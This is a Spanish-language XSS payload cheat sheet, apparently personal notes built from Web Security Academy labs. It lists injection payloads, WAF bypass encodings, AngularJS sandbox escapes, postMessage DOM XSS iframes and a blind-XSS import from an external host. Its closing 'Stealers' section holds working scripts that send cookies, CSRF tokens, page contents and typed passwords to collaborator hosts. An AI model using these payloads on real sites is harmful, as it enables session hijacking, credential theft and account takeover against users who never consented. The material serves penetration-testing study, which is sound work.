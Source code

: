 -- -
## **bXSS**
```html
<img/src/onerror=import('https://xss0r.com/c/vacasa');//>
```


---

## **Inyecciones Básicas (con Tag Cerrado)**  
```html
<script>alert(1)</script>
<img src="x" onerror="alert('XSS')" />
<iframe src="javascript:alert('XSS');"></iframe>
<svg onload="alert('XSS');"></svg>
<video><source onerror="alert('XSS');"></source></video>
<object data="javascript:alert('XSS');"></object>
<math><annotation-xml encoding="application/xhtml+xml"><script>alert('XSS');</script></annotation-xml></math>
abc’”><><img src=1 onerror=alert(document.cookie)>
```

---

## **Bypass de WAF**  
- **HTML Entities**: `&#60;script&#62;`.  
- **URL Encoding**: `%3Cscript%3E`.  
- **Hex/Unicode**: `\u003Cscript\u003E`.  
- **Double Encoding**: `%26%2360%3Bscript%26%2362%3B`.  

---
## **Payloads segun ocaciones**  
```javascript 
" style="animation-name:swoop-up" onanimationstart="alert(document.domain)
```

**Escapando de los tags originales y poniendo mis propios tags**
```html
"><script>alert(0)</script>
```

**Buscando cargar una imagen erronea para asi generar un error**
```html
<img src=x onerror=alert(0)>
```

**Si se esta utilizando Jquery**
```html
1. #<img src=x onerror=alert(0)>
Si es que se refleja

2. <iframe src="https://URL/#" onload="this.src += '<img src=0 onerror=alert(0)>'"></iframe>
```

**Si vemos que lo que inyectamos se refleja en un `<input>`**
```html
" onmouseover="alert(0)
```

**Si jugamos con la declaracion de variables**
```javascript
'-alert(1)-'
kike'; alert(0); var probando='testing
kike'; alert(0)//
kike\'%2balert(0);// ---> siempre y cuando nos escape la '\'
```

**Si la url esta pasando parametros por post, intentar mandarlos por GET como otro parametro aparte y cerrar los tags en los que esta encasillado**
```python
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1 ---> el servidor envia ahi data por POST en diversos parametros
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1&storeId=</option></select><script>alert(0)</script> ---> Le paso data por que mandaba por POST, solo que por GET, cierro las etquietas y asi se ejecuto el codigo reflejado
```

**Si esta usando AngularJS y vemos la palabra ng-app en el codigo**
```javascript
{{constructor.constructor('alert(1)')()}}
```

**Si nuestra data se refleja en un json y/o se esta ejecutando angularJS, vale la pena probar**
```javascript 
asdas\"-alert(0)}//
```

**Si permite usar body y onresize**
```html
<iframe src="https://0ad6008404cf2e4a805d219f00200007.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>
```

**Si vemos que no se pueden usar etiquetas comunes, probamos usando etiquetas custom**
```html
<custom id=identifier onfocus=alert(0) tabindex=1>#identifier
```

**Si permite el uso de svg y anchor pero no el href**
```javascript
<svg><animateTransform onbegin=alert(0)>
<svg><a><animate attributeName=href values=javascript:alert(0) /><text x=50 y=50>Click me</text></a>
```

**Si podemos modificar parte de un canonical link tag**
```javascript
https://URL/?'accesskey='x'onclick='alert(0)
```

**Cerrando el tag script en el cual estaba encerrado**
```javascript
</script><script>alert(0)</script>
```

**Abusando del evento onclick con caracteres escapados**
```javascript
http://kike.com&apos;+alert(0)+&apos;
```

**Si la variable se encierra entre backticks:**
```javascript
${alert(0)}
```

**Si esta usando angularJS 1.4.4 y no se puede usar ' ni "**
```javascript
?search=&toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

**Invocar alert escapando del contexto y sin parentesis ni backticks**
```javascript
payload(x=x=>{throw/**/onerror=alert,1337},toString=x,window+'')cierre(,{x:')
```

**Aprovechando una HTMLi para crear un boton malicioso**
```html
my-account?email=prueba"></form><form class="login_form" name="myform" action="https://exploit-0aa900d0042394388054026e017a0088.exploit-server.net/exploit" method="GET"><button class=button type=submit>Click me</button>
```

**Aprovechando insercion en el content CSP**
```html
script-src-elem 'unsafe-inline'
```

### **DOM XSS**
**Aprovechando `window.addEventListener` y `Postmessage`**
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("<img src=x onerror=alert(0)","*")'></iframe>
```

*Abusando de  location.href*
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("javascript:alert(0)//https://kike.com","*")'></iframe>
```

*Abusando de json.parse*
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:alert(0)\"}","*")'></iframe>
```

*Manipulando cookies y alterando el href*
```html
<iframe src="https://URL/product?productId=3&'><script>alert(0)</script>" onload="if(!window.x)this.src='https://URL';window.x=1;"></iframe>
```

---
## **Stealers**
### **Cookie stealer**
```javascript
<script>
	fetch("https://URL/?cookie=" + btoa(document.cookie));
</script>
```

### **CSRF stealer**
```javascript
<script>
	var req = new XMLHttpRequest();
	req.open("GET", "/my-account", true);
	req.send();
	
	var response = req.responseText;
	var csrf_token = response.match(/name="csrf" value="(\w+)"/)[1];
	
	var req2 = new XMLHttpRequest();
	req2.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?response=' + btoa(response), false);
	req2.send();
	
	var req3 = new XMLHttpRequest();
	req3.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?token=' + btoa(csrf_token), false);
	req3.send();

	var req4 = new XMLHttpRequest();
	req4.open('POST', "/my-account/change-email", true);
	req4.setRequestHeader("Content-Type","application/x-www-form-urlencoded")
	var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token);
	req4.send();
	
</script>
```

```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = handleResponse; 
	req.open('get','/my-account',true);
	req.send(); 
	function handleResponse() { 
		var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
		var changeReq = new XMLHttpRequest(); 
		changeReq.open('post', '/my-account/change-email', true); 
		changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>

```

## **Password stealer**

```javascript
`<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://ugee0gt5d0krro32q1x1km9wun0eo8cx.oastify.com',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">`
```

```javascript
<script>
function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 8);
  data.append('comment', `${username}:${password}`);
  data.append('name', 'victim');
  data.append('email', 'zenshell@zenshell.ninja');
  data.append('website', 'http://www.zenshell.ninja');

  fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
  });
}
</script>
```